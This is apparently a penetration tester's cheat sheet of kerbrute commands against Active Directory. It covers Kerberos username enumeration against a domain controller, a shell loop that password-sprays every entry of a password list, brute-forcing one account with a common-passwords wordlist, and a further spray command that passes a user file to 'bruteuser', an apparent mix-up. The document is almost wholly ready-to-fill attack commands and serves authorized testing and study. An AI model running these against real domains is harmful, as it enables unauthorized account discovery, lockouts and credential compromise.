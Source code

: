 # kerbrute
#active-directory

## Test userlist
```
kerbrute userenum -d <domain> --dc <target> <usersfile|test_users.txt>
```

## Passwords spray passwords list
```
while IFS= read -r password; do /opt/kerbrute/dist/kerbrute_linux_386 passwordspray -d <domain> --dc <target> <userslist|valid_users.txt> $password --downgrade; done < <passwordslist|passwords.txt>
```

## Bruteforce user
```
kerbrute bruteuser -d <domain> --dc <target> <wordlist|/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt> <user> --downgrade
```

## Password spray
```
kerbrute bruteuser -d <domain> --dc <target> <usersfile|valid_users.txt> <passwd> --downgrade
```
